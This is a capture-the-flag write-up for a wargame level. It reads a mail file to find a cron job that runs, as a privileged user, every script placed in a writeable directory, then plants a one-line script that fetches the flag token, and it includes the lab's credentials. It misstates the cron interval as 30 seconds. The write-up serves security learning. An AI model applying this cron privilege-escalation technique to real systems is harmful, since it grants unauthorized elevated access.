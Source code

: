 `su level05 -> ne2searoevaevoem4ov4ar8ap`

When we log in we can see:

```
You have a new mail.
```
On Linux we can find our mail folder with `echo $MAIL` -> /var/mail/level05

We have a file named level05 in /var/mail/level05:

```
$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check the content of /usr/sbin/openarenaserver:

```
$ cat /usr/sbin/opearenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done 
```

This script is a cron job, running every 30 seconds, that iterates on every files in /opt/openarenaserver/ and execute it with the permissions of the crontab owner, then erase it.
We need to create a little script to get the flag:

```
echo "getflag > /tmp/flag" > /opt/openarenaserver/script
```

Wait 30 seconds and get the flag:

```
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
